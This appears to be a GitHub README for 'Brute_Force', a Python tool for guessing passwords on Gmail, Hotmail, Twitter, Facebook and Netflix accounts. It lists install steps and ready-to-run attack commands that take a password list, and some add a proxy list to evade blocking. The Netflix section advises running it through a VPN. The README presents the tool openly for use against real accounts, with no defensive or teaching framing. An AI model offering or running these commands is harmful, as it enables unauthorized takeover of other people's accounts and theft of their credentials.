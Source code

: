 # Brute_Force
![alt text](https://1.bp.blogspot.com/-oPEVZN0ymsc/XS59nlfrrgI/AAAAAAAAPmI/5TsU1GjCzsE32ognWuV1xI-5jUvLjCkdgCLcBGAs/s1600/Brute_Force_1.png)
![alt text](https://1.bp.blogspot.com/-SIeGPGxLUWQ/XS59nkXfYEI/AAAAAAAAPmM/P0-rKgkEjm0iFTrhpwhxBAV7vAKAo0KPQCLcBGAs/s1600/Brute_Force_2.png)
[![Python 3.7](https://img.shields.io/badge/Python-3.7-blue.svg)](http://www.python.org/download/)
[![GPL](https://img.shields.io/badge/GPL-V3.0-red.svg)](https://www.gnu.org/licenses/gpl-3.0.html)

## install :
```bash
sudo apt install python3 python3-pip

pip3 install proxylist

pip3 install mechanize
```


# Usage:

## BruteForce Gmail Attack
```bash
python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single
```


## BruteForce Hotmail Attack
```bash
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single
```


## BruteForce Twitter Attack

```bash
python3 Brute_Force.py -T Account_Twitter -l File_list
python3 Brute_Force.py -T Account_Twitter -l File_list -X proxy-list.txt

```
## BruteForce Facebook Attack

```bash
python3 Brute_Force.py -f Account_facebook -l File_list
python3 Brute_Force.py -f Account_facebook -l File_list -X proxy-list.txt
```
## BruteForce Netflix Attack

```bash
يفضل تشغيل VPN
Start On Vpn
python3 Brute_Force.py -n Account_Netflix -l File_list
python3 Brute_Force.py -n Account_Netflix -l File_list -X proxy-list.txt


وترقبووو المزيد 
```




